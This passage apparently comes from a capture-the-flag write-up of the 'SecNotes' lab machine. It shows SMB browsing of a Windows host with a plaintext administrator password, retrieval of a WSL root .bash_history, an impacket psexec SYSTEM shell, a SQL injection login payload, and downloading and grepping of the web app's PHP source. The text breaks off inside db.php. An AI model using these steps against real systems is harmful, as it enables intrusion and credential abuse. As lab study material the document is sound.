  Microsoft.CredDialogHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:27 2018
  Microsoft.DesktopAppInstaller_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:48 2018
  Microsoft.ECApp_8wekyb3d8bbwe       D        0  Thu Jun 21 21:06:27 2018
  Microsoft.EdgeDevtoolsPlugin_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:28 2018
  Microsoft.GetHelp_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:49 2018
  Microsoft.Getstarted_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:41 2018
  Microsoft.LockApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:28 2018
  Microsoft.Messaging_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:40 2018
  Microsoft.Microsoft3DViewer_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:39 2018
  Microsoft.MicrosoftEdgeDevToolsClient_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:22 2018
  Microsoft.MicrosoftEdge_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:02 2018
  Microsoft.MicrosoftOfficeHub_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:38 2018
  Microsoft.MicrosoftSolitaireCollection_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:37 2018
  Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:26 2018
  Microsoft.MSPaint_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:36 2018
  Microsoft.NET.Native.Framework.1.0_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.3_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.6_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.7_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.0_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.3_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.4_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.6_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.7_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.Office.OneNote_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:35 2018
  Microsoft.OneConnect_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:15 2018
  Microsoft.People_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:31 2018
  Microsoft.PPIProjection_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:21 2018
  Microsoft.Print3D_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:29 2018
  Microsoft.Services.Store.Engagement_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:26 2018
  Microsoft.SkypeApp_kzf8qxf38zg5c      D        0  Thu Jun 21 20:57:08 2018
  Microsoft.StorePurchaseApp_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:58 2018
  Microsoft.VCLibs.140.00.UWPDesktop_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:39 2018
  Microsoft.VCLibs.140.00_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.Wallet_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:34 2018
  Microsoft.WebMediaExtensions_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:23 2018
  Microsoft.Win32WebViewHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:21 2018
  Microsoft.Windows.Apprep.ChxApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:20 2018
  Microsoft.Windows.AssignedAccessLockApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:20 2018
  Microsoft.Windows.CapturePicker_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:19 2018
  Microsoft.Windows.CloudExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:58 2018
  Microsoft.Windows.ContentDeliveryManager_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:02 2018
  Microsoft.Windows.Cortana_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:01 2018
  Microsoft.Windows.HolographicFirstRun_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:18 2018
  Microsoft.Windows.OOBENetworkCaptivePortal_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:18 2018
  Microsoft.Windows.OOBENetworkConnectionFlow_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:17 2018
  Microsoft.Windows.ParentalControls_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:17 2018
  Microsoft.Windows.PeopleExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:15 2018
  Microsoft.Windows.Photos_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:08 2018
  Microsoft.Windows.PinningConfirmationDialog_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:15 2018
  Microsoft.Windows.SecHealthUI_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:13 2018
  Microsoft.Windows.SecureAssessmentBrowser_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:11 2018
  Microsoft.Windows.ShellExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:01 2018
  Microsoft.WindowsAlarms_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:05 2018
  Microsoft.WindowsCalculator_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:41 2018
  Microsoft.WindowsCamera_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:06 2018
  microsoft.windowscommunicationsapps_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:05 2018
  Microsoft.WindowsFeedbackHub_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:33 2018
  Microsoft.WindowsMaps_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:18 2018
  Microsoft.WindowsPhone_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:51 2018
  Microsoft.WindowsSoundRecorder_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:33 2018
  Microsoft.WindowsStore_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:07 2018
  Microsoft.Xbox.TCUI_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:32 2018
  Microsoft.XboxApp_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:31 2018
  Microsoft.XboxGameCallableUI_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:14 2018
  Microsoft.XboxGameOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:24 2018
  Microsoft.XboxGamingOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:30 2018
  Microsoft.XboxIdentityProvider_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:08 2018
  Microsoft.XboxSpeechToTextOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:01 2018
  Microsoft.ZuneMusic_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:53 2018
  Microsoft.ZuneVideo_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:13 2018
  Windows.CBSPreview_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:16 2018
  Windows.ContactSupport_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:52 2018
  windows.devicesflow_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:52 2018
  windows.immersivecontrolpanel_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:00 2018
  Windows.PrintDialog_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:14 2018
  windows_ie_ac_001                   D        0  Thu Jun 21 20:49:52 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\>
smb: \Users\tyler\appdata\local\Packages\> dir
  .                                   D        0  Thu Jun 21 21:06:40 2018
  ..                                  D        0  Thu Jun 21 21:06:40 2018
  1527c705-839a-4832-9118-54d4Bd6a0c89_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:24 2018
  ActiveSync                          D        0  Thu Jun 21 20:51:57 2018
  c5e2524a-ea46-4f67-841f-6a9465d9d515_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:24 2018
  CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc      D        0  Thu Jun 21 21:00:23 2018
  E2A4F912-2574-4A75-9BB0-0D023378592B_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:25 2018
  F46D4000-FD22-4DB4-AC8E-4E1DDDE828FE_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:25 2018
  InputApp_cw5n1h2txyewy              D        0  Thu Jun 21 21:06:26 2018
  Microsoft.3DBuilder_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:46 2018
  Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:59 2018
  Microsoft.AccountsControl_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:26 2018
  Microsoft.Advertising.Xaml_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:05 2018
  Microsoft.Appconnector_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:45 2018
  Microsoft.AsyncTextService_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:22 2018
  Microsoft.BingFinance_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:48 2018
  Microsoft.BingNews_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:44 2018
  Microsoft.BingSports_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:40 2018
  Microsoft.BingWeather_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:00 2018
  Microsoft.BioEnrollment_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:23 2018
  Microsoft.CredDialogHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:27 2018
  Microsoft.DesktopAppInstaller_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:48 2018
  Microsoft.ECApp_8wekyb3d8bbwe       D        0  Thu Jun 21 21:06:27 2018
  Microsoft.EdgeDevtoolsPlugin_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:28 2018
  Microsoft.GetHelp_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:49 2018
  Microsoft.Getstarted_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:41 2018
  Microsoft.LockApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:28 2018
  Microsoft.Messaging_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:40 2018
  Microsoft.Microsoft3DViewer_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:39 2018
  Microsoft.MicrosoftEdgeDevToolsClient_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:22 2018
  Microsoft.MicrosoftEdge_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:02 2018
  Microsoft.MicrosoftOfficeHub_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:38 2018
  Microsoft.MicrosoftSolitaireCollection_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:37 2018
  Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:26 2018
  Microsoft.MSPaint_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:36 2018
  Microsoft.NET.Native.Framework.1.0_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.3_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.6_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:50 2018
  Microsoft.NET.Native.Framework.1.7_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.0_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.3_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.4_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.6_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.NET.Native.Runtime.1.7_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.Office.OneNote_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:35 2018
  Microsoft.OneConnect_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:15 2018
  Microsoft.People_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:31 2018
  Microsoft.PPIProjection_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:21 2018
  Microsoft.Print3D_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:29 2018
  Microsoft.Services.Store.Engagement_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:26 2018
  Microsoft.SkypeApp_kzf8qxf38zg5c      D        0  Thu Jun 21 20:57:08 2018
  Microsoft.StorePurchaseApp_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:58 2018
  Microsoft.VCLibs.140.00.UWPDesktop_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:39 2018
  Microsoft.VCLibs.140.00_8wekyb3d8bbwe      D        0  Thu Jun 21 20:49:51 2018
  Microsoft.Wallet_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:34 2018
  Microsoft.WebMediaExtensions_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:23 2018
  Microsoft.Win32WebViewHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:21 2018
  Microsoft.Windows.Apprep.ChxApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:20 2018
  Microsoft.Windows.AssignedAccessLockApp_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:20 2018
  Microsoft.Windows.CapturePicker_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:19 2018
  Microsoft.Windows.CloudExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:58 2018
  Microsoft.Windows.ContentDeliveryManager_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:02 2018
  Microsoft.Windows.Cortana_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:01 2018
  Microsoft.Windows.HolographicFirstRun_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:18 2018
  Microsoft.Windows.OOBENetworkCaptivePortal_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:18 2018
  Microsoft.Windows.OOBENetworkConnectionFlow_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:17 2018
  Microsoft.Windows.ParentalControls_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:17 2018
  Microsoft.Windows.PeopleExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:15 2018
  Microsoft.Windows.Photos_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:08 2018
  Microsoft.Windows.PinningConfirmationDialog_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:15 2018
  Microsoft.Windows.SecHealthUI_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:13 2018
  Microsoft.Windows.SecureAssessmentBrowser_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:11 2018
  Microsoft.Windows.ShellExperienceHost_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:01 2018
  Microsoft.WindowsAlarms_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:05 2018
  Microsoft.WindowsCalculator_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:41 2018
  Microsoft.WindowsCamera_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:06 2018
  microsoft.windowscommunicationsapps_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:05 2018
  Microsoft.WindowsFeedbackHub_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:33 2018
  Microsoft.WindowsMaps_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:18 2018
  Microsoft.WindowsPhone_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:51 2018
  Microsoft.WindowsSoundRecorder_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:33 2018
  Microsoft.WindowsStore_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:07 2018
  Microsoft.Xbox.TCUI_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:32 2018
  Microsoft.XboxApp_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:31 2018
  Microsoft.XboxGameCallableUI_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:14 2018
  Microsoft.XboxGameOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:24 2018
  Microsoft.XboxGamingOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:30 2018
  Microsoft.XboxIdentityProvider_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:08 2018
  Microsoft.XboxSpeechToTextOverlay_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:01 2018
  Microsoft.ZuneMusic_8wekyb3d8bbwe      D        0  Thu Jun 21 20:56:53 2018
  Microsoft.ZuneVideo_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:13 2018
  Windows.CBSPreview_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:16 2018
  Windows.ContactSupport_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:52 2018
  windows.devicesflow_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:52 2018
  windows.immersivecontrolpanel_cw5n1h2txyewy      D        0  Thu Jun 21 20:50:00 2018
  Windows.PrintDialog_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:14 2018
  windows_ie_ac_001                   D        0  Thu Jun 21 20:49:52 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\> cd CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\> dir
  .                                   D        0  Thu Jun 21 21:00:23 2018
  ..                                  D        0  Thu Jun 21 21:00:23 2018
  AC                                  D        0  Thu Jun 21 21:00:23 2018
  AppData                             D        0  Thu Jun 21 21:00:23 2018
  LocalCache                          D        0  Thu Jun 21 21:00:23 2018
  LocalState                          D        0  Thu Jun 21 21:00:28 2018
  RoamingState                        D        0  Thu Jun 21 21:00:23 2018
  Settings                            D        0  Sun Aug 19 18:25:31 2018
  SystemAppData                       D        0  Thu Jun 21 21:00:23 2018
  TempState                           D        0  Thu Jun 21 21:00:23 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\> cd LocalState
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\> dir
  .                                   D        0  Thu Jun 21 21:00:28 2018
  ..                                  D        0  Thu Jun 21 21:00:28 2018
  rootfs                             DA        0  Thu Jun 21 21:03:05 2018
  temp                                D        0  Sun Jan 20 13:31:06 2019

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\> cd rootfs\
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\> dir
  .                                  DA        0  Thu Jun 21 21:03:05 2018
  ..                                 DA        0  Thu Jun 21 21:03:05 2018
  bin                                DA        0  Thu Jun 21 21:03:05 2018
  boot                               DA        0  Thu Jun 21 21:00:29 2018
  dev                                DA        0  Thu Jun 21 21:00:29 2018
  etc                                DA        0  Fri Jun 22 06:00:57 2018
  home                               DA        0  Thu Jun 21 21:00:34 2018
  init                                A    87944  Sun Jan 20 13:31:06 2019
  lib                                DA        0  Thu Jun 21 21:00:38 2018
  lib64                              DA        0  Thu Jun 21 21:00:38 2018
  media                              DA        0  Thu Jun 21 21:00:38 2018
  mnt                                DA        0  Thu Jun 21 21:03:05 2018
  opt                                DA        0  Thu Jun 21 21:00:38 2018
  proc                               DA        0  Thu Jun 21 21:00:38 2018
  root                               DA        0  Fri Jun 22 17:44:46 2018
  run                                DA        0  Thu Jun 21 21:00:38 2018
  sbin                               DA        0  Fri Jun 22 05:57:41 2018
  snap                               DA        0  Thu Jun 21 21:00:39 2018
  srv                                DA        0  Thu Jun 21 21:00:39 2018
  sys                                DA        0  Thu Jun 21 21:00:39 2018
  tmp                                DA        0  Fri Jun 22 17:25:22 2018
  usr                                DA        0  Thu Jun 21 21:02:54 2018
  var                                DA        0  Thu Jun 21 21:03:03 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\> cd root\
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\> dir
  .                                  DA        0  Fri Jun 22 17:44:46 2018
  ..                                 DA        0  Fri Jun 22 17:44:46 2018
  .bashrc                             A     3112  Fri Jun 22 06:09:47 2018
  .bash_history                       A      398  Fri Jun 22 17:41:36 2018
  .profile                            A      148  Thu Jun 21 21:00:38 2018
  filesystem                          D        0  Fri Jun 22 05:56:12 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\>
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\> get .bash_history
getting file \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\.bash_history of size 398 as .bash_history (2.8 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \Users\tyler\appdata\local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\>
```

###### Root shell using impacket psexec

```sh
root@kali:~/secnotes# psexec.py administrator@10.10.10.97
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file BWdbCvOy.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service xzjX on 10.10.10.97.....
[*] Starting service xzjX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system

C:\WINDOWS\system32>
```

###### SQL Injection

```
testing' or 1=1-- -
password
```







```sh
root@kali:~/secnotes# smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Thu Jun 21 18:24:29 2018
  bootmgr                          AHSR   395268  Fri Jul 10 07:00:31 2015
  BOOTNXT                           AHS        1  Fri Jul 10 07:00:31 2015
  Distros                             D        0  Thu Jun 21 18:07:52 2018
  Documents and Settings            DHS        0  Fri Jul 10 08:21:38 2015
  inetpub                             D        0  Thu Jun 21 21:47:33 2018
  Microsoft                           D        0  Fri Jun 22 17:09:10 2018
  pagefile.sys                      AHS 738197504  Sat Jan 19 17:06:43 2019
  PerfLogs                            D        0  Wed Apr 11 19:38:20 2018
  php7                                D        0  Thu Jun 21 11:15:24 2018
  Program Files                      DR        0  Sun Aug 19 17:56:49 2018
  Program Files (x86)                DR        0  Thu Jun 21 21:47:33 2018
  ProgramData                        DH        0  Sun Aug 19 17:56:49 2018
  Recovery                          DHS        0  Thu Jun 21 17:52:17 2018
  swapfile.sys                      AHS 16777216  Sat Jan 19 17:06:43 2019
  System Volume Information         DHS        0  Thu Jun 21 17:53:13 2018
  Ubuntu.zip                          A 201749452  Thu Jun 21 18:07:28 2018
  Users                              DR        0  Thu Jun 21 18:00:39 2018
  Windows                             D        0  Sun Jan 20 13:45:18 2019

		12978687 blocks of size 4096. 8110242 blocks available
smb: \> cd inetpub
smb: \inetpub\> dir
  .                                   D        0  Thu Jun 21 21:47:33 2018
  ..                                  D        0  Thu Jun 21 21:47:33 2018
  custerr                             D        0  Thu Jun 21 16:10:58 2018
  history                             D        0  Thu Jun 21 18:00:48 2018
  logs                                D        0  Thu Jun 21 21:47:33 2018
  new-site                            D        0  Sun Jan 20 13:25:12 2019
  temp                                D        0  Thu Jun 21 21:47:33 2018
  wwwroot                             D        0  Fri Jun 22 08:51:25 2018

		12978687 blocks of size 4096. 8110242 blocks available
smb: \inetpub\> cd wwwroot
smb: \inetpub\wwwroot\> dir
  .                                   D        0  Fri Jun 22 08:51:25 2018
  ..                                  D        0  Fri Jun 22 08:51:25 2018
  auth.php                            A      402  Fri Jun 22 08:57:55 2018
  change_pass.php                     A     3887  Fri Jun 22 08:57:55 2018
  contact.php                         A     2556  Fri Jun 22 09:17:48 2018
  db.php                              A      670  Fri Jun 22 08:57:55 2018
  home.php                            A     4315  Fri Jun 22 08:58:33 2018
  login.php                           A     4221  Fri Jun 22 08:57:55 2018
  logout.php                          A      235  Fri Jun 15 16:44:37 2018
  register.php                        A     5168  Fri Jun 22 08:57:55 2018
  submit_note.php                     A     3956  Fri Jun 22 08:59:18 2018
  web.config                          A      548  Sat Jun 16 22:05:51 2018

		12978687 blocks of size 4096. 8110242 blocks available
smb: \inetpub\wwwroot\> get auth.php
getting file \inetpub\wwwroot\auth.php of size 402 as auth.php (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
smb: \inetpub\wwwroot\> get change_pass.php
getting file \inetpub\wwwroot\change_pass.php of size 3887 as change_pass.php (27.1 KiloBytes/sec) (average 15.2 KiloBytes/sec)
smb: \inetpub\wwwroot\> get contact.php
getting file \inetpub\wwwroot\contact.php of size 2556 as contact.php (14.7 KiloBytes/sec) (average 15.0 KiloBytes/sec)
smb: \inetpub\wwwroot\> get db.php
getting file \inetpub\wwwroot\db.php of size 670 as db.php (4.3 KiloBytes/sec) (average 12.3 KiloBytes/sec)
smb: \inetpub\wwwroot\> get home.php
getting file \inetpub\wwwroot\home.php of size 4315 as home.php (31.7 KiloBytes/sec) (average 15.8 KiloBytes/sec)
smb: \inetpub\wwwroot\> get login.php
getting file \inetpub\wwwroot\login.php of size 4221 as login.php (28.8 KiloBytes/sec) (average 17.9 KiloBytes/sec)
smb: \inetpub\wwwroot\> get logout.php
getting file \inetpub\wwwroot\logout.php of size 235 as logout.php (1.5 KiloBytes/sec) (average 15.5 KiloBytes/sec)
smb: \inetpub\wwwroot\> get register.php
getting file \inetpub\wwwroot\register.php of size 5168 as register.php (36.3 KiloBytes/sec) (average 17.9 KiloBytes/sec)
smb: \inetpub\wwwroot\> get submit_note.php
getting file \inetpub\wwwroot\submit_note.php of size 3956 as submit_note.php (27.8 KiloBytes/sec) (average 19.0 KiloBytes/sec)
smb: \inetpub\wwwroot\> get web.config
getting file \inetpub\wwwroot\web.config of size 548 as web.config (3.7 KiloBytes/sec) (average 17.5 KiloBytes/sec)
smb: \inetpub\wwwroot\>
```

```sh
root@kali:~/secnotes/wwwroot# tree
.
├── auth.php
├── change_pass.php
├── contact.php
├── db.php
├── home.php
├── login.php
├── logout.php
├── register.php
├── submit_note.php
└── web.config

0 directories, 10 files
root@kali:~/secnotes/wwwroot#
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i 'system(' *.php
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i 'powershell' *.php
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i 'cmd' *.php
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i 'sql' *.php
change_pass.php-    }
change_pass.php-
change_pass.php-    // Check input errors before inserting in database
change_pass.php-    if(empty($password_err) && empty($confirm_password_err)){
change_pass.php-        // Prepare an insert statement
change_pass.php:        $sql = "UPDATE users SET password = ? WHERE username = ?";
change_pass.php-
change_pass.php:        if($stmt = mysqli_prepare($link, $sql)){
change_pass.php-            // Bind variables to the prepared statement as parameters
change_pass.php:            mysqli_stmt_bind_param($stmt, "ss", $param_password, $param_username);
change_pass.php-
change_pass.php-            // Set parameters
change_pass.php-            $param_username = $username;
change_pass.php-            $param_password = password_hash($password, PASSWORD_DEFAULT); // Creates a password hash
change_pass.php-
change_pass.php-            // Attempt to execute the prepared statement
change_pass.php:            if(mysqli_stmt_execute($stmt)){
change_pass.php-                // Redirect to login page
change_pass.php-				$_SESSION['home-error'] = "Password updated.";
change_pass.php-                header("location: home.php");
change_pass.php-            } else{
change_pass.php-                echo "Something went wrong. Please try again later.";
change_pass.php-            }
change_pass.php-        }
change_pass.php-
change_pass.php-        // Close statement
change_pass.php:        mysqli_stmt_close($stmt);
change_pass.php-    }
change_pass.php-
change_pass.php-    // Close connection
change_pass.php:    mysqli_close($link);
change_pass.php-}
change_pass.php-?>
change_pass.php-
change_pass.php-<!DOCTYPE html>
change_pass.php-<html lang="en">
--
db.php-
db.php-if ($includes != 1) {
db.php-	die("ERROR: Should not access directly.");
db.php-}
db.php-
db.php:/* Database credentials. Assuming you are running MySQL
db.php-server with default setting (user 'root' with no password) */
db.php-define('DB_SERVER', 'localhost');
db.php-define('DB_USERNAME', 'secnotes');
